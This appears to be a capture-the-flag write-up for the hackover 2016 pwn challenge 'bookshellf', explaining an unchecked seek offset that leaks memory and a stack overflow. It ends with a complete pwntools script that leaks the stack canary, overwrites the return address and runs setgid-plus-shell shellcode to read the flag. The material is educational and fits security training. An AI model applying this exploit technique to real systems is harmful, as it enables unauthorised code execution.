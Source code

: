 ```yaml
---
layout: post
title: "hackover 2016: bookshellf (pwn 72)"
author: wolvg, creed
categories: writeup
tags: [cat/pwn, tool/pwntools]
---
```


* **Category:** pwn
* **Points:** 72
* **Description:**


>
>Our business market analysis told us that the cyber kids of today don't read books anymore. Cyber parents are desperate about their cyber kid's education. Therefore we released a new cyber ebook reader which sends cyber waves directly to the kids brains to make them read electronically. Currently we are in negotiations with many copyright owners to provide a larger library. For now you can read the work by H.P. Lovecraft, which is public cyber domain.

>nc challenges.hackover.h4q.it 31337 

## Write-up
When we start the binary we are presented with a banner and menu.

```
 _              _       _        _ _  __
| |__  ___  ___| |__ __| |_  ___| | |/ _|
| '_ \/ _ \/ _ \ / /(_-< ' \/ -_) | |  _|
|_.__/\___/\___/_\_\/__/_||_\___|_|_|_|
                    with 20% more love!
== main menu
0) list books
1) read book
2) exit
> 
```

First we can list the available books (stored on a folder on the remote) and then read them. In order to read a book we have to enter its name, e.g., dagon.txt. The program then reads 511 bytes of the book into a buffer, prints it, and presents the user with the question wheter the user want to continue reading, stop reading or seek to a specific offset.
This offset is neither checked against the size of the book nor is it checked if it is positive. This means we can read 511 bytes from wherever we want. As the buffer is copied via strncpy we can only read from an adress until a 0-byte is encountered.
Additionally, when entering the name of book we want to read, we can overflow the 'book_to_read' buffer.

Let's checksec:

```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL
gdb-peda$ 
```
Here's the plan:

1. leak canary and saved rbp
2. overwrite canary with leaked canary, overwrite ret address with rbp+offset, write shellcode on the stack

After some exploit fiddling we get a shell on the remote and, of course, we are here for the flag.

```
$ ls -al
total 32
drwxr-xr-x 4 root root  4096 Oct  6 19:57 .
drwxr-xr-x 4 root root  4096 Oct  6 19:57 ..
-rwxr-sr-x 1 flag flag 10232 Oct  6 19:57 bookshellf
dr-xr-xr-x 2 root root  4096 Oct  6 19:57 library
-rwxr-xr-x 1 root root    68 Oct  6 19:57 run.sh
dr-xr-xr-x 2 root flag  4096 Oct  6 19:57 secret
$ cd secret
$ ls -al
total 12
dr-xr-xr-x 2 root flag 4096 Oct  6 19:57 .
drwxr-xr-x 4 root root 4096 Oct  6 19:57 ..
-r--r----- 1 root flag   62 Oct  6 19:57 flag.txt
$ cat flag.txt
$ whoami
user
```
Ok, it looks like we are not allowed to read the flag. Back to IDA again.
Apparently there is that:
```
[...]    
seteuid(v1);
v2 = getuid();
setegid(v2);
[...]
```

So we have to change the gid to the flag gid.

```
user:x:1000:1000::/home/user/:/usr/sbin/nologin
flag:x:1001:1001::/home/flag/:/usr/sbin/nologin
```

We added the following line to our exploit

```
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
```
and executed it against the remote. Now we are allowed the read the flag:

```
hackover16{iN_h1s_hOusE_aT_Rlyeh_d3ad_Cthulhu_waItS_drEamIng}
```

Our final exploit:

```python
from pwn import *
import binascii

context.terminal = ['urxvtGDB.sh']
#context.log_level = 'DEBUG'
context.arch = 'amd64'

#p = process('./bookshellf')
p = remote('challenges.hackover.h4q.it', 31337)
p.recvuntil('>')

#gdb.attach(p,
#         'b *0x400fcf')
p.sendline('1')
p.recvuntil('>')

index = '30729'
p.sendline('dagon.txt')

p.recvuntil('>')
p.sendline('s' + index)
p.recvuntil('!\n\n\n')

received = p.recvline()
addr = '\x00' + received[8:13] + '\x00' * 2
addr = addr[::-1]

addr_int = int(binascii.hexlify(addr), 16) + 0x100
print'addr = 0x' + hex(addr_int)

canary = '\x00'
canary += received[0:7]


p.sendline('n') # stop reading
p.recvuntil('>')
p.sendline('1')
p.recvuntil('>')

offset = cyclic_find(0x646d6178)

payload = 'B' * 8   #rbp
payload += p64(addr_int)
shellcode = ''
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
shellcode += asm(shellcraft.amd64.linux.sh(), arch="amd64")

p.sendline('asdf' + 'D' * (offset - 4) + canary + payload + '\x90' * 0x200 + shellcode)
p.clean_and_log()
p.interactive()
```
